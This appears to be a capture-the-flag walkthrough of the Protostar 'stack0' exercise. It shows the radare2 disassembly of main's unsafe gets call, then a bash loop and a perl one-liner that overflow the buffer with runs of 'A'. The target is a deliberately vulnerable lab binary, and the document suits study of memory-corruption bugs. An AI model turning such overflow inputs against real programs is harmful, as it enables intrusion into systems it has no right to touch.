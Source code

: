 ##### Exports
```
[0x08048340]> iE
066 0x000003f4 0x080483f4 GLOBAL   FUNC   65 main
```
##### Look for interesting Strings
```
fs strings; f
0x08048500 41 str.you_have_changed_the__modified__variable
0x08048529 11 str.Try_again
```
##### Print disassembled function
```
[0x08048340]> pdf @0x080483f4
/ (fcn) main 65
|   main ();
|           ; var char *s @ esp+0x1c
|           ; var int local_5ch @ esp+0x5c
|           ; DATA XREF from entry0 (0x8048357)
|           0x080483f4      55             push ebp
|           0x080483f5      89e5           mov ebp, esp
|           0x080483f7      83e4f0         and esp, 0xfffffff0
|           0x080483fa      83ec60         sub esp, 0x60               ; '`'
|           0x080483fd      c744245c0000.  mov dword [local_5ch], 0
|           0x08048405      8d44241c       lea eax, [s]                ; 0x1c ; 28
|           0x08048409      890424         mov dword [esp], eax        ; char *s
|           0x0804840c      e8fbfeffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048411      8b44245c       mov eax, dword [local_5ch]  ; [0x5c:4]=-1 ; '\' ; 92
|           0x08048415      85c0           test eax, eax
|       ,=< 0x08048417      740e           je 0x8048427
|       |   0x08048419      c70424008504.  mov dword [esp], str.you_have_changed_the__modified__variable ; [0x8048500:4]=0x20756f79 ; "you have changed the 'modified' variable" ; const char *s
|       |   0x08048420      e807ffffff     call sym.imp.puts           ; int puts(const char *s)
|      ,==< 0x08048425      eb0c           jmp 0x8048433
|      ||   ; CODE XREF from main (0x8048417)
|      |`-> 0x08048427      c70424298504.  mov dword [esp], str.Try_again ; [0x8048529:4]=0x20797254 ; "Try again?" ; const char *s
|      |    0x0804842e      e8f9feffff     call sym.imp.puts           ; int puts(const char *s)
|      |    ; CODE XREF from main (0x8048425)
|      `--> 0x08048433      c9             leave
\           0x08048434      c3             ret
```

## Run vulnerable code
```
$ ./stack0      
ss
Try again?
```
##### Brute Force
```
#!/bin/bash
for i in {1..70}
do
 seq -sA $i|tr -d '[:digit:]' | ./stack0
done
```
##### Leverage bash tools
```
$ perl -e 'print "A"x65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | /opt/protostar/bin/stack0
```